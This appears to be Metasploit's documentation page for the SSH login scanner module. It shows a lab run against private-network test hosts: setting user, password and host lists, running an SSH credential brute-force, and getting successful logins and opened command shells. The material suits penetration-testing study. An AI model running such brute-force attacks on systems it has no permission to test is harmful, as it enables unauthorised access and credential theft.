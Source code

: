 ## Scenarios

Example run against:

* Ubuntu 14.04 Server with root login permitted: 192.168.2.156
* Ubuntu 16.04 Server: 192.168.2.137
* Metasploitable: 192.168.2.46
* Metasploitable 2: 192.168.2.35

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > cat /root/ssh_passwords.lst
[*] exec: cat /root/ssh_passwords.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set pass_file /root/ssh_passwords.lst
pass_file => /root/ssh_passwords.lst
msf auxiliary(ssh_login) > cat /root/ssh_un.lst
[*] exec: cat /root/ssh_un.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set user_file /root/ssh_un.lst
user_file => /root/ssh_un.lst
msf auxiliary(ssh_login) > cat /root/ssh_hosts.lst
[*] exec: cat /root/ssh_hosts.lst

192.168.2.156
192.168.2.137
192.168.2.35
192.168.2.46
msf auxiliary(ssh_login) > set rhosts file:/root/ssh_hosts.lst
rhosts => file:/root/ssh_hosts.lst
msf auxiliary(ssh_login) > set verbose false
verbose => false
msf auxiliary(ssh_login) > set threads 4
threads => 4
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 5 opened (192.168.2.117:44415 -> 192.168.2.46:22) at 2017-02-22 20:26:13 -0500
[*] Command shell session 6 opened (192.168.2.117:36107 -> 192.168.2.35:22) at 2017-02-22 20:26:13 -0500
[+] SSH - Success: 'root:ubuntu' 'uid=0(root) gid=0(root) groups=0(root) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
```